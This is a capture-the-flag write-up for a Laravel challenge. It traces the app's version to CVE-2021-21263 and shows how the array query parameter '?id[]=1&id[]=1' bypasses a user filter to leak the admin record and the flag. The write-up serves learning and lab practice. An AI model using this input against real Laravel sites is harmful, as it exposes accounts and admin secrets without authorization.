


# Challenge 30 (Expecty Bindy) Solve

* Category - Laravel
* Difficulty - Hard



 * This challenge was another Laravel one with a table loading of tons of users.
 * Right out of the gate, I noticed user 1 was not loaded so that probably means something
 * Additionally, it says `Powered via Laravel 8.22.0` at the bottom
 * So it was time to go look at the next release after 8.22.0 to see what was patched.
 * Sure enough, didn't take long to find a [blog post](https://blog.laravel.com/security-laravel-62011-7302-8221-released)



 * That then points us to [CVE-2021-21263](https://github.com/laravel/framework/security/advisories/GHSA-3p32-j457-pg5x)
 * Thus, we probably have our exploit path.
 * So lets peek into the API call that this endpoint uses.

```json
{
  "data": [
    {
      "id": 2,
      "name": "User A",
      "email": "usera@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 3,
      "name": "User B",
      "email": "userb@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 4,
      "name": "User C",
      "email": "userc@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 5,
      "name": "User D",
      "email": "userd@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 6,
      "name": "User E",
      "email": "usere@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 7,
      "name": "User F",
      "email": "userf@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 8,
      "name": "User G",
      "email": "userg@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 9,
      "name": "User H",
      "email": "userh@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    }
  ],
  "payload": []
}
```

 * It appears this just returns information with no authentication.
 * So the page talked about adding filtering. So lets add `?id=2`

```json
{
  "data": [
    {
      "id": 2,
      "name": "User A",
      "email": "usera@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    }
  ],
  "payload": {
    "id": "2"
  }
}
```

 * That worked! So lets ask for `id=1`
 * Unfortunately that did not work.

```json
{
  "data": [],
  "payload": {
    "id": "1"
  }
}
```

* So finding the [explanation](https://kanecohen.com/blog/laravel-security-update-jan-13/) of the exploit
* We know the exploit works by taking the input of one query parameter to the next.
* So lets adapt our example to `?id[]=1&id[]=1`

```json
{
  "data":[
    {
      "id":1,
      "name":"Admin",
      "email":"admin@s0urc3704dc7f.com",
      "is_admin":true,
      "remember_token":"TOAD{cV3-hUnt1N9-15-L4R4FUN}"
    }
  ],
  "payload":{
    "id":[
      "1",
      "1"
    ]
  }
}
```

* Which worked!
* The flag was hiding in the `remember_token` field.

---

* You are left with the flag - `TOAD{cV3-hUnt1N9-15-L4R4FUN}`.